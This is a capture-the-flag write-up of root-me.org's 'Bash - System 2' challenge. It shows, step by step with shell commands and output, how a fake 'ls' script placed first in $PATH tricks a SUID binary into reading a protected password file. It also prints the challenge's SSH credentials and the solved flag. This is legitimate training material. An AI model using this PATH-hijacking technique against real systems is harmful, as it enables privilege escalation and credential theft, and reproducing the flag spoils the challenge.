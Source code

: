 ```yaml
---
title: Bash - System 2 - root-me.org
published: true
---
```


# [](#intro)Introduction

Since we just solved Bash - System 1 (you can check it out [here](bash-system-1-root-me)), let's go and solve their second level as well. This challenge is very similar to the last one, but with a twist.

# [](#level-description)Challenge description

The 'Statement' for this challenge is the following C code:

```c
    #include <stdlib.h>
    #include <stdio.h>
    #include <unistd.h>
    #include <sys/types.h>
     
    int main(){
        setreuid(geteuid(), geteuid());
        system("ls -lA /challenge/app-script/ch12/.passwd");
        return 0;
    }
```

To connect to the room, we can SSH:

`ssh -p 2222 app-script-ch12@challenge02.root-me.org`

with the password `app-script-ch12`.

# [](#approach)Approach mindset

Let's start building up some calluses again by developing our approach mindset step-by-step. For this problem, we have already tackled the basic concepts in our previous Capture The Flag (CTF) challenge. 

## [](#mindset-step1)Step 1 - Understanding basic concepts

If you are not familiar with the functions `setreuid` and `system`, go check it out in my last CTF solution for Bash - System 1, which we discussed them thoroughly [here](bash-system-1-root-me#step-1---understanding-basic-concepts). 

## [](#mindset-step2)Step 2 - Understanding the problem

We can see that this challenge is fairly similar to Bash - System 1 challenge. However, we have something new here. In the previous CTF, we saw that the `system` line was simply a `ls` command. In this level, the complexity increases with the addition of a switch to `ls` command, as seen in the following line of code:

`system("ls -lA /challenge/app-script/ch12/.passwd");`

Note that we have the `-lA` switch passed as argument to the `ls` command. Let's SSH into the machine and take a look around:

```bash
app-script-ch12@challenge02:~$ ls -la
total 32
dr-xr-x---  2 app-script-ch12-cracked app-script-ch12         4096 Dec 10  2021 .
drwxr-xr-x 25 root                    root                    4096 Sep  5 14:00 ..
-r--------  1 root                    root                     640 Dec 10  2021 ._perms
-rw-r-----  1 root                    root                      43 Dec 10  2021 .git
-r--r-----  1 app-script-ch12-cracked app-script-ch12-cracked   14 Dec 10  2021 .passwd
-rwsr-x---  1 app-script-ch12-cracked app-script-ch12         7252 Dec 10  2021 ch12
-r--r-----  1 app-script-ch12         app-script-ch12          204 Dec 10  2021 ch12.c
```

As we can see, we need to find a way to `cat` the `.passwd` file through the `ch12` binary, which is the compiled version of `ch12.c`. The problem is exactly the same as the previous one in Bash - System 1. The `ch12` SUID bit is set, meaning the `system` function, alongside with the `setreuid`, will make sure the script runs the command as `app-script-ch12-cracked`, granting the right permissions we need to read `.passwd`.

We could think of a way to trick the program into thinking it ran the `ls` command, but actully runs the `cat` command. However, the switch `-lA` will make this unbearable. The thing is that the `cat` command does not have these two switches used here.

Well, we already know how to make the program runs a crafted `ls` command. We just need to find a way to make it ignore the switch. That's our goal!

## [](#mindset-step3)Step 3 - Crafting the attack

We shall start solving this challenge by doing exactly what we have done in Bash - System 1:

1. First, we go to the `/tmp` directory and make a new directory. Then, `cd` into it:

```bash
app-script-ch12@challenge02:~$ mkdir /tmp/cecil
app-script-ch12@challenge02:~$ cd /tmp/cecil
app-script-ch12@challenge02:/tmp/cecil$ 
```

2. Now, we export this path to our $PATH variable with the following command:

```bash
app-script-ch12@challenge02:/tmp/cecil$ export PATH=/tmp/cecil:$PATH
app-script-ch12@challenge02:/tmp/cecil$ echo $PATH
/tmp/cecil:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin:/opt/tools/checksec/
```

This part is already done. The new $PATH variable includes our new path as first, meaning that any script will prioritize it when looking for commands to run. Now it comes the tricky part. 

To make a point, let's try to solve this (erroneously) with the same approach used in Bash - System 1. We copied the `/bin/cat` binary into `/tmp/cecil` with the name of `ls`. After that, we run the `ch12` binary to read the contents of `.passwd`:

```bash
app-script-ch12@challenge02:/tmp/cecil$ cp /bin/cat ls
app-script-ch12@challenge02:/tmp/cecil$ cd -
/challenge/app-script/ch12
app-script-ch12@challenge02:~$ ./ch12
ls: invalid option -- 'l'
Try 'ls --help' for more information.
```

As we can see, this does not work, and the reason is exactly because of the switch `-lA`. It would have worked if we did not have these switches.

### Abusing `chmod` command

One way I thought to circumvent this is by writing a bash script named `ls` that contained a command to read `.passwd`. But to do so, we need access to `chmod`. We can test this in our `/tmp/cecil` directory by creating a bash script called `test` and making it an executable with `chmod +x test`. For our `test` script, we wrote it with vim:

```bash
#!/bin/bash
echo "hi mom"
```

Followed by:

```bash
app-script-ch12@challenge02:/tmp/cecil$ chmod +x test
app-script-ch12@challenge02:/tmp/cecil$ ./test
hi mom
```

As we can see, we can use `chmod` to create bash executable scripts. Since we are inside a directory included in the path variable, we could craft an `ls` bash script with a cat command inside of it:

```bash
#!/bin/bash
cat
```

and then:

```bash
app-script-ch12@challenge02:/tmp/cecil$ chmod +x ls
```

## [](#mindset-step4)Step 4 - Solving!

Ok. We have a bash script that mimics the `cat` command disguised as `ls`. Let's try it out. 

### Attempt 1

If we try to run the `ch12` binary under these circumstances, this is what happens:

```bash
app-script-ch12@challenge02:~$ ./ch12

```

Nothing. Why?! Here's what is happening: the `./ch12` is looking for the binary called `ls`, which in this case is a bash script that runs an empty `cat` command. But what happens with the rest of the string in the `system` function, you ask? Well, they are treated as command line arguments to our bash script!

To test this hypothesis, let's change our `ls` bash script to the following:

```bash
#!/bin/bash
echo "False command: $0"
echo "Arguments: $@"
```

Now, when our `ls` command runs, it will print out its path and the arguments passed after it. If our hypothesis is correct, when we run `ch12` now, it should print the rest of the string as the arguments:

```bash
app-script-ch12@challenge02:~$ ./ch12
False command: /tmp/cecil/ls
Arguments: -lA /challenge/app-script/ch12/.passwd
```

Amazing! It is in the mistakes that we craft a solution!

### Attempt 2

Since we got rid of the `-lA` flag by making it to be passed as arguments of our fake `ls` script, we can change the `ls` bash script to simply `cat /challenge/app-script/ch12/.passwd`:

```bash
#!/bin/bash
cat /challenge/app-script/ch12/.passwd
```

Now, we run the `ch12` binary again:

```bash
app-script-ch12@challenge02:~$ ./ch12
8a95eDS/*e_T#
```

And we get the flag!

# [](#conclusions)Conclusion

In this CTF, we dove into another layer of system complexities and the exploitation of C functions. We began by dissecting the core elements presented by the challenge script, progressing towards identifying potential exploitation avenues.

The strategy was built around the concept of command substitution, made possible by the writable `/tmp` directory and by manipulating the $PATH variable. This allowed us to craft a substitute `ls` command that redirected the execution flow from the intended `ls -lA` command to our bash script. By creating a bash script, the `ls` command was treated as a executable and the rest of the string as arguments, eliminating the `-lA` switch.

This was all possible due to the fact we had already tackled a similar problem, and because we tried a failed attempt first. Remember, it is in the failures that we find the solution!

Thanks for sticking 'til the end. I hope you learned something new today! And remember, always do your **research!**

<a href="/">Go back</a>






